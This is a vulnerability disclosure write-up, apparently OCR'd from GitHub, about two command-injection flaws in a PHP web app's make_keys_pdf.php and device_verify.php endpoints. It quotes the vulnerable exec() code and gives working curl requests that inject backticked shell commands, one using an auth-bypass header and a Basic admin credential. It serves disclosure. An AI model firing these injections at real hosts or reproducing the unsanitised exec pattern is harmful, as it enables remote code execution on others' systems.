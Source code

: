 ```php
REDACTED
...
*/
	$file = exec("lua /var/www/lua/make_keys_pdf.lua " . json_encode($_GET["set"]) . " " . json_encode(json_encode($arr_fkeys)));
    if (file_exists($file)) {
        readfile($file);
        unlink($file);
    }
}


```
since `auth.php` is included , the auth bypass is needed here. other than that it is a straight forward command execution

**exploitation :** send a request to endpoint `features/make_keys_pdf.php` with headers mentioned in the auth bypass above set accordingly and with get param `set` set to command to be executed inside backticks
```console
$ curl 'http://192.168.0.19/features/make_keys_pdf.php?set=`id>PWNED`' -H 'X-Requested-With: xmlhttprequest' -H 'Authorization: Basic YWRtaW46YWRtaW5h' 

$ curl 'http://192.168.0.19/features/PWNED'
uid=1000(wms) gid=1000(wms) groups=42(shadow),1000(wms),1005(ejabberd)

```

### RCE
This one is very straight forward . a user supplied value is directly concatenated in to a command and executed. And since `auth.php` is not included there is no need for auth bypass. The vulnerable endpoint is  `/devices/device_verify.php`
```php
if (isset($_GET["action"]) && isset($_GET["ip"])) {
    $nmap_opts = "-sS";
    if (isset($_GET["rawScan"])) {
        $nmap_opts = "--unprivileged -sT";
    }
    $content = exec("nice -n 20 nohup sudo nmap --script /var/www/lua/discovery.nse " . $nmap_opts . " -n --max-retries 2 --max-hostgroup 1 --max-rtt-timeout 1750ms --initial-rtt-timeout 1250ms --open -p 80,443 -oG - " . $_GET["ip"] . " 2>&1 >/dev/null");
    echo "{" . $content . "}";
}

?>
```

**exploitation :** send a request to endpoint  `/devices/device_verify.php` with get param `action` set to any value and get param `ip` set to a the command to be executed inside backticks

```console

$ curl 'http://192.168.0.19/devices/device_verify.php?action=xx&ip=`id>/tmp/PWNED`'

```
